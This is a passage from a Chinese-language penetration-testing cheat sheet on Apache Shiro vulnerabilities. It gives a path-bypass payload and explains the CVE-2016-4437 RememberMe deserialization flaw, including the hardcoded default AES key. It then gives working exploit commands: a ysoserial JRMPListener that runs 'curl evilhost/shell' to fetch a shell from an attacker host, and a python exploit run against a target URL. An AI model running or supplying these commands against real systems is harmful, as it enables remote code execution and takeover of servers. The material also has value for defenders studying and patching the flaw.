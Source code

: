 **payload**

```
/xxx/..;/{后台资源}
```

### Apache Shiro <= 1.2.4 默认密钥致命令执行漏洞（CVE-2016-4437）

**影响版本**

```
 Apache Shiro <= 1.2.4  不受影响  Apache Shiro > 1.2.4
```

**原因**

```
在 1.2.4 版本前，是默认ASE秘钥，Key: kPH+bIxk5D2deZiIxcaaaA==，可以直接反序列化执行恶意代码。而在1.2.4之后，ASE秘钥就不为默认了，需要获取到Key才可以进行渗透

Apache Shiro框架提供了记住我的功能（RememberMe），用户登陆成功后会生成经过加密并编码的cookie。cookie的key为RememberMe，cookie的值是经过对相关信息进行序列化，然后使用aes加密，最后在使用base64编码处理形成的。

Shiro记住用户会话功能的逻辑为：

获取RememberMe的值 —> Base64解密 —> ASE解密 –> 反序列化

在服务端接收cookie值时，按照如下步骤来解析处理：

1、检索RememberMe cookie 的值
2、Base 64解码
3、使用AES解密(加密密钥硬编码)
4、进行反序列化操作（未作过滤处理）
在调用反序列化时未进行任何过滤，导致可以触发远程代码执行漏洞。

因为在反序列化时，不会对其进行过滤，所以如果传入恶意代码将会造成安全问题
```

**payload**

```
exp: https://github.com/insightglacier/Shiro_exploit
配置环境 ： python2.7 jdk1.8

服务器：

java -cp ysoserial-master-SNAPSHOT.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections5 'curl evilhost/shell –o shell'

本地：

python shiro_exploit.py -u http://target/ -t 2 -g JRMPClient -p "remote_host:1099" -k "kPH+bIxk5D2deZiIxcaaaA=="
```

### Apahce Shiro < 1.6.0 验证绕过漏洞(CVE-2020-13933)

